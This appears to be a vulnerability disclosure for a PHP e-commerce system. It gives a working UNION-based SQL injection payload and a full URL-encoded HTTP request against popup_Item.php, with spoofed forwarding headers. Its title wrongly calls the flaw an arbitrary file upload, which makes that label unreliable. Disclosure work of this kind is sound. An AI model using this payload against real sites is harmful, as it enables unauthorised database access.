 # ecommerce-Unauthorized arbitrary file upload vulnerability

## Description

    The ecommerce /ecommerce/popup_Item.php interface has not authorized sql union population.

## source code

    https://www.sourcecodester.com/php/13524/e-commerce-system-using-phpmysqli.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. test

```
1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,database(),20
```

```
GET /ecommerce/popup_Item.php?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%2c%35%2c%36%2c%37%2c%38%2c%39%2c%31%30%2c%31%31%2c%31%32%2c%31%33%2c%31%34%2c%31%35%2c%31%36%2c%31%37%2c%31%38%2c%64%61%74%61%62%61%73%65%28%29%2c%32%30 HTTP/1.1
Host: 172.20.10.166:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g4gppk342k4t3gn6dlmav29rr0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close


```

database

| ![image-20240822163210159](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Unauthorized%20arbitrary%20file%20upload vulnerability.assets/image-20240822163210159.png) |
| ------------------------------------------------------------ |

